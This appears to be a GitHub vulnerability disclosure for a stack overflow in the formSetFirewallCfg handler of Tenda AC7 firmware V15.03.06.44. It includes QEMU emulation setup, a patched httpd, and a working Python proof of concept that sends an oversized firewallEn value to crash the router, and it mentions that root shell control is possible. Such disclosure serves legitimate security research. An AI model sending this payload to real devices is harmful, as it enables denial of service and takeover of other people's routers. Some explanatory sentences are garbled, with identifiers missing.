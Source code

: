 Overview
--------

Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/6c8f66b9-f107-4610-973f-d5f4365cfbd8)

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7\_\_V15.03.06.44\_httpd\_ok file in this project) (modify the assembly to force skip the environment check step): [https://github.com/Raining-101/IOT\_cve/blob/main/a7\_\_V15.03.06.44\_httpd\_ok](https://github.com/Raining-101/IOT_cve/blob/main/a7__V15.03.06.44_httpd_ok)

qemu command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
----------------

V15.03.06.44

Vulnerability Details
---------------------

The Tenda AC7  V15.03.06.44 was found to have a stack overflow vulnerability in the formSetFirewallCfg function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image](https://github.com/user-attachments/assets/dac94773-9494-4c4e-b612-8e3ac9eb4554)


In the function, the (the value of ) we entered is directly copied into the array through the function.It is not secure, as long as the size of the data we enter is larger than the size of , it will cause a stack overflow.`formSetFirewallCfgfirewall_valuefirewallEnfirewall_bufstrcpyfirewall_buf`

Recurring vulnerabilities and POC
---------------------------------

In order to reproduce the vulnerability, the following steps can be followed:

1.  Boot the firmware by qemu-system or other ways (real machine)
2.  Attack with the following POC attacks

```text-plain
import requests


url = "http://192.168.0.1/goform/SetFirewallCfg"


headers = {
    "Host": "192.168.0.1", 
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.0.1",  
    "DNT": "1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/index.html"  
}

cookies = {
    "ecos_pw": "eee",
    "language": "cn"
}

payload = {
    "firewallEn": "a" * 1000  
}

try:
    response = requests.post(
        url=url,
        headers=headers,
        cookies=cookies,
        data=payload,
    )
    

    
except requests.exceptions.RequestException as e:
    print(f"Request failed: {e}")
```

![image](https://github.com/user-attachments/assets/f3338808-f0df-40a5-a1b4-84ea4173208f)


By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![image](https://github.com/user-attachments/assets/847f2a4b-746b-44fe-89aa-ace1109393da)


Of course, you can also write poc to keep the root shell (because the pc register is controllable).
